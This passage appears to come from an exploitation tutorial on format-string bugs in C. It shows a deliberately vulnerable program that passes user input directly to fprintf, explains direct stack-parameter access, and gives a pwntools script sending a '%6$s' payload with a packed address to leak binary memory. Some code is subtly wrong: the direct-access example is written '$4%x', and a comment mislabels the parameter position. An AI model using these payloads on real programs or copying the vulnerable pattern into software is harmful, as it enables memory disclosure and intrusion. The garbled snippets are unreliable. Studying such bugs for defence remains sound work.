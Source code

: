 * fprintf vulnerable:

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    char *user_input;
    user_input = argv[1];
    FILE *output_file = fopen("output.txt", "w");
    fprintf(output_file, user_input); // The user input cna include formatters!
    fclose(output_file);
    return 0;
}
```

### **Accessing Pointers**

The format **`%<n>$x`**, where `n` is a number, allows to indicate to printf to select the n parameter (from the stack). So if you want to read the 4th param from the stack using printf you could do:

```c
printf("%x %x %x %x")
```

and you would read from the first to the forth param.

Or you could do:

```c
printf("$4%x")
```

and read directly the forth.

Notice that the attacker controls the `printf` **parameter, which basically means that** his input is going to be in the stack when `printf` is called, which means that he could write specific memory addresses in the stack.

{% hint style="danger" %}
An attacker controlling this input, will be able to **add arbitrary address in the stack and make `printf` access them**. In the next section it will be explained how to use this behaviour.
{% endhint %}

## **Arbitrary Read**

It's possible to use the formatter **`%n$s`** to make **`printf`** get the **address** situated in the **n position**, following it and **print it as if it was a string** (print until a 0x00 is found). So if the base address of the binary is **`0x8048000`**, and we know that the user input starts in the 4th position in the stack, it's possible to print the starting of the binary with:

```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
